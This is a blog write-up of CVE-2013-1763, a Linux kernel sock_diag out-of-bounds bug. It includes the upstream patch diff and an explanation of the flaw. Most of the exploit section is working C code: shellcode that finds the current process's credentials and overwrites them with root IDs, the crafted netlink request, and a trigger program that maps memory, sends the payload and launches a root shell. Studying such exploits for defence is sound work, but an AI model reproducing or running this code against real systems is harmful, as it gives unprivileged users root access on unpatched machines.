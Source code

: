 +++
title = "CVE-2013-1763" 
date =  "2014-04-19"
tags = ["exploit", "security", "networking"]
categories = ["Blog"]
+++

Userland can send a netlink message requesting `SOCK_DIAG_BY_FAMILY` with a family greater or equal then `AF_MAX` -- the array size of `sock_diag_handlers[]`. The current code does not test for this condition therefore is vulnerable to an out-of-bound access opening doors for a privilege escalation.

Vulnerability
--------------

```diff
diff --git a/net/core/sock_diag.c b/net/core/sock_diag.c
index 602cd63..750f44f 100644
--- a/net/core/sock_diag.c
+++ b/net/core/sock_diag.c
@@ -121,6 +121,9 @@ static int __sock_diag_rcv_msg(struct sk_buff *skb, struct nlmsghdr *nlh)
  if (nlmsg_len(nlh) < sizeof(*req))
    return -EINVAL;
 
+ if (req->sdiag_family >= AF_MAX)
+   return -EINVAL;
+
  hndl = sock_diag_lock_handler(req->sdiag_family);
  if (hndl == NULL)
    err = -ENOENT;
  else
    err = hndl->dump(skb, nlh); // hndl->dump executes !!
```


In `__sock_diag_rcv_msg` function, userland variable `req->sdiag_family` is passed uncheckly to `sock_diag_handler`, within which overflow and exploit happens.

```c
static const inline struct sock_diag_handler *sock_diag_lock_handler(int family)
{
  if (sock_diag_handlers[family] == NULL)
    request_module("net-pf-%d-proto-%d-type-%d", PF_NETLINK, NETLINK_SOCK_DIAG, family);

  mutex_lock(&sock_diag_table_mutex);
  return sock_diag_handlers[family];
}
```

Here the function returns a pointer `sock_diag_handlers + family`.

```c
struct sock_diag_handler {
  __u8 family;
  int (*dump)(struct sk_buff *skb, struct nlmsghdr *nlh);
};
hndl = sock_diag_lock_handler(req->sdiag_family);
hndl->dump(skb, nlh); //(sock_diag_handlers + family + 8) executes !!
```

All story told, here we find that finally `(sock_diag_handlers + family + 8)` executes in kernel mode. 

Exploits
---------

1. Craft a piece of shell code.
2. Calcualte the value of `family` which points `sock_diag_handlers + family + 8` to the shell code.
3. Construct a package with large `family` and set it.
4. You got it.


Shell code
-----------

1. get `current` (pointer to the current process descriptor `task_struct`)
2. Manipulate `process credentials`

```c
static long ugid;
void patch_current() {
    int i,j,k;
    char *current = *(char**)(((long)&i) & (-8192));
    long kbase = ((long)current)>>36;
    
    for (i=0; i<4000; i+=4) {
        long *p = (void *)&current[i];
        int *t = (void*) p[0];
        if ((p[0] != p[1]) || ((p[0]>>36) != kbase)) continue;
        for (j=0; j<20; j++) {
            for (k = 0; k < 8; k++)
            if (((int*)&ugid)[k%2] != t[j+k])
            goto next;
            for (i = 0; i < 8; i++)
            t[j+i] = 0;
            for (i = 0; i < 10; i++)
            t[j+9+i] = -1;
            return;
next:;
        }
    }
}
```


Crafted a package
-----------------

```c
struct {
  struct nlmsghdr nlh;
  struct unix_diag_req r;
} req;

struct nlmsghdr {
  __u32   nlmsg_len;  /* Length of message including header */
  __u16   nlmsg_type; /* Message content */
  __u16   nlmsg_flags;  /* Additional flags */
  __u32   nlmsg_seq;  /* Sequence number */
  __u32   nlmsg_pid;  /* Sending process port ID */
};

struct unix_diag_req {
  __u8  sdiag_family;
  __u8  sdiag_protocol;
  __u16 pad;
  __u32 udiag_states;
  __u32 udiag_ino;
  __u32 udiag_show;
  __u32 udiag_cookie[2];
};
```

Trigger
---------

```c
int main()
{
  long u = getuid();
  long g = getgid();
  int i, f = socket(16,3,4);
  static int n[10] = {40,0x10014,0,0,45,-1};
 
  assert(mmap((void*)(1<<12), 1<<20, 3, 0x32, 0, 0)!=-1);
 
  setresuid(u,u,u); setresgid(g,g,g);
  ugid = (g<<32)|u;
 
  memcpy(1<<12, &patch_current, 1024);
  for (i = 0; i < (1<<17); i++) ((void**)(1<<12))[i] = &patch_current;
  send(f, n, sizeof(n), 0);
  setuid(0);
  return execl("/bin/bash", "-sh", 0);
}
```

Reference
----------

All credit goes to the authors of [this][1] and [this][2] exploits.

[1]: http://www.exploit-db.com/exploits/24746/
[2]: http://www.exploit-db.com/exploits/24555/
